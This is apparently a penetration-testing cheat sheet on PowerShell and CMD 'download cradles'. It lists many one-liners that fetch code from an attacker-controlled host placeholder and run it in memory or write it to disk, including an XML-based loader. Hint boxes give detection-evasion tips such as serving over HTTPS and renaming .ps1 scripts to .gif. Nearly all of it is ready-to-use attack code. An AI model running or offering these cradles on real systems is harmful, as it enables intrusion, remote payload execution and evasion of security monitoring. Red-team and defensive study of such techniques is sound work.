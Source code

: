 # Download and Execution Methods

## Tools

[https://github.com/danielbohannon/Invoke-CradleCrafter](https://github.com/danielbohannon/Invoke-CradleCrafter)



In Memory

```
Net.WebClient DownloadString Method
Net.WebClient DownloadData Method
Net.WebClient OpenRead Method
.NET [Net.HttpWebReqest].class
Word.Application COM Object
Excel.Application COM Object
InternetExplorer.Application COM Object
MSXML2.ServerXmlHTTP Com Object
Certutil.exe w/ -ping argument
```

{% hint style="info" %}
If possible use SSL on attacking machine and use HTTPS to further evade detection
{% endhint %}

{% hint style="info" %}
Further evade detection by renaming scripts from .ps1 to something else such as .gif. Powershell can still execute .gif files as Powershell files.
{% endhint %}

{% hint style="info" %}
Multi command scripts below can be converted to one line with ';' between commands.
{% endhint %}

**On Disk**

```
Net.WebClient DownloadFile Method
BITSAdmin.exe
Cerutil.exe w/ -urlcahche argument
```

**Net.WebClient Download String Method**

{% tabs %}
{% tab title="Powershell" %}
```powershell
# Standard download cradle
iex (New-Object Net.Webclient).DownloadString("http://<IP>/<File>")

# Internet Explorer Downoad cradle
$ie=New-Object -ComObject
InternetExplorer.Application;$ie.visible=$False;$ie.navigate('http://<IP>/<File>
');sleep 5;$response=$ie.Document.body.innerHTML;$ie.quit();iex $response

# Requires PowerShell V3+
iex (iwr 'http://<IP>/<File>')

$h=New-Object -ComObject
Msxml2.XMLHTTP;$h.open('GET','http://<IP>/<File>',$false);$h.send();iex
$h.responseText

$wr = [System.NET.WebRequest]::Create("http://<IP>/<File>")
$r = $wr.GetResponse()
IEX ([System.IO.StreamReader]($r.GetResponseStream())).ReadToEnd()
```
{% endtab %}

{% tab title="CMD" %}
```batch
powershell.exe iex (New-Object Net.Webclient).DownloadString('http://<IP>/<File>')
```
{% endtab %}
{% endtabs %}

**Net.WebClient Single Quotes Download and store**

{% tabs %}
{% tab title="Powershell" %}
```markup
iex (new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')
```
{% endtab %}

{% tab title="CMD" %}
```
powershell.exe iex (new-Object Net.WebClient).DownloadFile('http://<IP>/<File>', 'C:\programdata\<File>')
```
{% endtab %}
{% endtabs %}

**Net.WebClient User Agent Download**

```
$downloader = New-Object System.Net.WebClient
$downloader.Headers.Add ("")
$payload = "http://<IP>/<File>"
$command = $downloader.DownloadString($payload)
iex $command
```

## XML Download and execute.

```aspnet
$xmldoc = New-Object System.Xml.XmlDocument
$xmldoc.Load("http://<IP>/<File.xml>")
iex $xmldoc.command.a.execute
```

### One Line

```markup
$xmldoc = New-Object System.Xml.XmlDocument ; $xmldoc.Load("http://<IP>/<File.xml>") ; iex $xmldoc.command.a.execute
```

### Script Example

{% tabs %}
{% tab title="Execute.xml" %}
```markup
<?xml version="1.0"?>
<command>
		<a>
			<execute>Get-Process</execute>
		</a>
</command>
```
{% endtab %}
{% endtabs %}

